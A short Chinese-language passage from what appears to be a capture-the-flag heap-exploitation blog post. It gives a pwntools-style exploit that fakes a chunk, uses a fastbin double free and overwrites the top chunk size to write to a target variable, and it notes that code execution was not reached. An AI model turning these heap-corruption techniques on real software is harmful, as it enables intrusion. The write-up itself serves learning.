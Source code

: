 最终的 exploit

```
username = p64(0)*3 + p64(0x21) + p64(0)*2+p64(0x20) + p64(0x1)

io.sendafter("username: ", username)
io.recvuntil("> ")
io.timeout = 0.1

mem = malloc(0x5fff8, "Y"*8) # Allocated via mmap().
free(mem) # Freeing an mmapped chunk increases the mmap threshold to its size.
mem = malloc(0x5fff8, "Z"*8)

dup = malloc(0x18, "A"*8)
safety = malloc(0x18, "B"*8)

free(dup)
free(safety)
free(dup)

malloc(0x18, p64(elf.sym.username+0x10)) # Address of fake chunk.

consolidate = malloc(0x88, "C"*8)
free(consolidate)

fake_size = 0x80001
amend_username(p64(0)*3+p64(fake_size))                                                              
malloc(0x80008, "D"*8)

fake_size = 0xfffffffffffffff1
amend_username(p64(0xfffffffffffffff0)+p64(0)*2+p64(fake_size))

# =============================================================================
# write target
distance = delta(elf.sym.username+0x10, elf.sym.target - 0x20)
malloc(distance,'eeee')

malloc(0x18, 'Much Win\x00')


```

最终就可以修改 target 的内容为目标的字符串

![](https://static.hack1s.fun/images/2021/12/15/image-20211215153632218.png)

接下来如果想要获取到代码执行权限需要有一个 libc 的地址泄漏，但是目前已经申请满了 9 个 chunk

后面怎么不多申请拿到代码执行能力还是没有想到

原博客地址, [http://hack1s.fun/](http://hack1s.fun/)

堆风水
---
